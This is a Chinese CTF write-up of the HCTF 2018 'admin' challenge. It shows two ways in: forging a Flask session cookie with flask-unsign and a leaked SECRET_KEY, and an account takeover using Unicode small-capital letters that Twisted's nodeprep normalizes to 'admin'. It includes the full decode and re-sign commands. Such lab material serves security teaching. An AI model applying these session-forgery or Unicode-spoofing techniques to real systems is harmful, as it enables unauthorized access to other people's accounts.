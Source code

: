# \[HCTF 2018]admin

## \[HCTF 2018]admin

## 考点

* flask session伪造
* Unicode欺骗

## wp

### 第一种做法

注册登录后，在change password处给了源码

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

打开可以看到是flask的源码，结合题目，可以判断要伪造admin。在config.py中找到`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

然后就可以使用flask-unsign了

```
flask-unsign --decode --cookie .eJxFkMFuwjAQRH-l2jOH2JALEhfkYgVpbYXaidYXREMgcWwqB VAhiH9vWlXtHHekNzvzgO2hr88NzC_9tZ7Att3D_AEv7zAHjJZpaVPihUeJXAmb4rDqXMwTNaiA0t50uYlkcEa-mpIJgcqicRJTMlVCZt05gwyFa5V85WhyjkPFtVAN-ow5UbTKuKgGGu_rgGLjnbQM_apDs_QU6Y5-GXDIUhSrTvFsOmbftQhB-cIrmTEa8k803QKeE6jO_WF7-ejq03-FEm8Uv-NHVDm-I3JGPEtVtAmaTaPFPmhxnCpTzbRARiUyly9-cG3cHes_EpXszf46p10cDdiNgglcz3X_MxuwBJ5fW9tqTg.YkqrwA.DOP8oMc0Qa4fnCrwx4twEYRYRvY
```

得到的内容为

```
{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}
```

在用`SECRET_KEY`重新加密

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}" --secret 'ckj123'
```

得到session，再用这个session访问index即可

```
.eJxFkF9rwjAUxb_KuM8-NNG-CL5IZqhwE-qSlpsXcbXapomDqkwrfvd1Y2yv58Dv_HnA9tDX5wbml_5aT2Db7mH-gJd3mANGy7S0KfHCo0SuhE1xWHUu5okaVEBpb7rcRDI4I19NyYRAZdE4iSmZKiGz7pxBhsK1Sr5yNDnHoeJaqAZ9xpwoWmVcVAON-jqg2HgnLUO_6tAsPUW6o18GHLIUxapTPJuO2XctQlC-8EpmjIb8E023gOcEqnN_2F4-uvr0P6HEG8Xv-BFVjnVEzohnqYo2QbNptNgHLY5TZaqZFsioRObyxQ-ujbtj_Ueikr3ZX-e0i6MBu31sTzCB67nuf34DlsDzC8rTatM.YkqtdA.cL66rcW3NKmN-aZXI_13u1zyH8g
```

### 第二种做法

使用Unicode欺骗。本题在获取参数时使用了自定义的strlower函数，nodeprep.prepare对应的库为[https://github.com/twisted/twisted](https://github.com/twisted/twisted)

```python
def strlower(username):
    pytusername = nodeprep.prepare(username)
    return username
```

nodeprep.prepare函数会把[Latin Letter Small Capital](https://unicode-table.com/en/1D00/)先转为大写再转为小写，即

```
ᴀ -> A -> a
```

那就可以先注册ᴀdmin，再修改密码，再以admin身份登录

## 小结

1. [一题三解之2018HCTF admin](https://www.anquanke.com/post/id/16408)
2. [从一道题深入mysql字符集与比对方法collation](https://skysec.top/2018/03/21/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E6%B7%B1%E5%85%A5mysql%E5%AD%97%E7%AC%A6%E9%9B%86%E4%B8%8E%E6%AF%94%E5%AF%B9%E6%96%B9%E6%B3%95collation/)

